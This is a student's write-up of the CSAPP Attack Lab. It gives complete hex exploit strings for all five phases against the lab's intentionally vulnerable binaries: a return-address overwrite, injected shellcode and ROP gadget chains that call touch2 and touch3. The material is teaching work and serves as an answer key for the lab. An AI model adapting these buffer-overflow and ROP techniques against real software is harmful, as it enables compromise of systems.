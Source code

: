* Phase 1

The stack space of ~getbuf~ is ~0x28~. The address of ~touch1~ is
~0x4017c0~. Thus, the exploit string should consists of 40 bytes of
random garbage and a 8-byte wide ~0x4017c0~.

The string that used by =hex2raw= to generate the actual input string:

#+begin_example
c0 17 40 00 00 00 00 00 /* padding */
c0 17 40 00 00 00 00 00 /* padding */
c0 17 40 00 00 00 00 00 /* padding */
c0 17 40 00 00 00 00 00 /* padding */
c0 17 40 00 00 00 00 00 /* padding */
c0 17 40 00 00 00 00 00 /* return address */
#+end_example

* Phase 2

In phase 2 we are going to inject the following code into the
program.

#+begin_src asm
          mov $0x59b997fa, %rdi
          mov $0x4017ec, (%rsp)
          ret
#+end_src

To be more specific, the code is injected to the buffer of the ~getbuf~
function. We also have to make ~getbuf~ returns to the starting address
of the buffer, which is =0x5561dc78=.

The final string we feed to =hex2raw= is:

#+begin_example
48 c7 c7 fa 97 b9 59 48 c7 04 24 ec 17 40 00 c3
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
#+end_example

Though this piece of code successfully called ~touch2~, it also
generates a segmentation fault. I think it is because we overwrite the
value where ~%rsp~ is pointing to. Instead of move, let's try ~push~. The
new injected code is:

#+begin_src asm
          mov $0x59b997fa, %rdi
          push $0x4017ec
          ret
#+end_src

The corresponding string that we feed to =hex2raw= is:

#+begin_example
48 c7 c7 fa 97 b9 59 /* mov $0x59b997fa, %rdi */
68 ec 17 40 00       /* push $0x4017ec */
c3                   /* ret */
00 00 00             /* padding */
78 dc 61 55 00 00 00 00 /* padding */
78 dc 61 55 00 00 00 00 /* padding */
78 dc 61 55 00 00 00 00 /* padding */
78 dc 61 55 00 00 00 00 /* return address */
#+end_example

* Phase 3

Cookie is:

0x59b997fa.

Hex representation is:

35 39 62 39 39 37 66 61

Let's place the string at the beginning of the buffer, thus it is less
likely to be overwritten by other function calls.

The code we need is:

#+begin_src asm
          mov $0x5561dc78, %rdi
          push $0x4018fa
          ret
#+end_src

This does not work. It happens to be written by some stack validation
mechanism. Try offset it a little bit.

Offsetting it towards the top of the stack (lower addresses) makes it
easier to be overwrote. Actually, it gets overwrote by a ~push~
instruction.

Analyzing the assembly code of ~touch3~, ~hexmatch~ tells that the stack
allocated by ~getbuf~ can not be used, they are all overwritten. Thus,
we can only place the string further towards the bottom of the stack
(higher addresses). This leads to a segmentation fault in
phase 2. Let's see if it will work in phase 3.

The final code is:

#+begin_example
35 39 62 39 39 37 66 61 /* padding */
00 00 00 00 00 00 00 00 /* padding */
48 c7 c7 a8 dc 61 55    /* mov $0x5561dca8, %rdi */
68 fa 18 40 00          /* push $0x4018fa */
c3                      /* ret */
00 00 00                /* padding */
88 dc 61 55 00 00 00 00 /* padding */
88 dc 61 55 00 00 00 00 /* return address */
35 39 62 39 39 37 66 61 /* cookie string */
00 00 00 00 00 00 00 00 /* ending zero */
#+end_example

The code works. I guess phase 3 uses a different validation protocol
than phase 2. Note that I have adjusted the address of the string in
the injected code to be =0x5561dca8=.

* Phase 4

The byte sequence =58 90 c3=, starting at address =0x4019ab= in
~addval_219~, can be used as the following instructions:

#+begin_src asm
          pop %rax
          nop
          ret
#+end_src

The byte sequence =48 89 c7 c3=, starting at address =0x4019a2= in
~addval_273~, can be used as the following instructions:

#+begin_src asm
          mov %rax, %rdi
          ret
#+end_src

The input string starts with 40 bytes of garbage to fill the stack
space allocated for the stack of ~getbuf~. It is followed by the address
of our first gadget: =0x4019ab=, which is followed by the value of our
cookie: =0x59b997fa=, which is followed by the address of the second
gadget: =0x4019a2=, which finally is followed by the address of ~touch2~:
=0x4017ec=.

#+begin_example
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
ab 19 40 00 00 00 00 00 /* pop %rax */
fa 97 b9 59 00 00 00 00 /* cookie number */
a2 19 40 00 00 00 00 00 /* mov %rax, %rdi */
ec 17 40 00 00 00 00 00 /* touch2 */
#+end_example

* Phase 5

The problem in this phase is that the address of the string
representation of the cookie can not be determined before the program
runs, because of the stack randomization.

However, notice that if the string is in the injected code and is well
aligned, then it will be pointed by ~%rsp~ at a certain point of
time. What we have to do is to take the value of ~%rsp~ and use it as
the address of the string.

We can do this by copying the value of ~%rsp~ to some register then use
a ~pop~ instruction to move the stack pointer since the string it points
to is not a valid return address.

However, the given code in the gadget farm can not achieve this. I was
stuck by this problem for a while. Then I searched the Internet and
noticed that [[https://stackoverflow.com/questions/55887127/csapp-3e-attack-lab-phase-5][this post]] was using an ~lea~ instruction. I found out that
the instruction is part of the gadget farm. I missed it because I did
not examine the gadget farm thoroughly, and I somehow believed that
the gadget only contains 4 kinds of instructions: ~mov~, ~pop~, ~ret~, and
~nop~. This is in the writeup of the lab:

#+begin_quote
You can construct your solution using gadgets consisting of the
following instruction types, and using only the first x86-64 registers
(~%rax~-~%rdi~).

~movq~ : ...

~popq~ : ...

~ret~ : ...

~nop~ : ...
#+end_quote

I have to say this part misled me.

Anyway, with the ~lea~ instruction at hand, I could compute the address
of the string rather than getting it directly.

However, there is another problem. To compute the address of the
string, I have to add an offset to a stack pointer. These two numbers
have to be placed in ~%rdi~ and ~%rsi~. It turns out the gadgets I have at
hand can only allow me to transport these values from ~%rax~ through one
of the following path:

1. ~%rax~, ~%rdi~
2. ~%rax~, ~%edx~, ~%ecx~, ~%esi~


In my first attempt I did not think about it carefully and transported
the stack pointer, i.e. a 64-bit long address, through the second
path, and lost the higher 32 bits along the way. However, if I use the
second path to transport the offset, there is no loss of information
since the offset is a small number.

The final solution is:

#+begin_example
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 /* mov %rsp, %rax */
a2 19 40 00 00 00 00 00 /* mov %rax, %rdi */
ab 19 40 00 00 00 00 00 /* pop %rax */
48 00 00 00 00 00 00 00 /* offset */
42 1a 40 00 00 00 00 00 /* mov %eax, %edx */
69 1a 40 00 00 00 00 00 /* mov %edx, %ecx */
13 1a 40 00 00 00 00 00 /* mov %ecx, %esi */
d6 19 40 00 00 00 00 00 /* lea(rdi,%rsi,1), %rax */
a2 19 40 00 00 00 00 00 /* mov %rax, %rdi */
fa 18 40 00 00 00 00 00 /* touch3 */
35 39 62 39 39 37 66 61 /* cookie string */
00 00 00 00 00 00 00 00 /* ending zero */
#+end_example
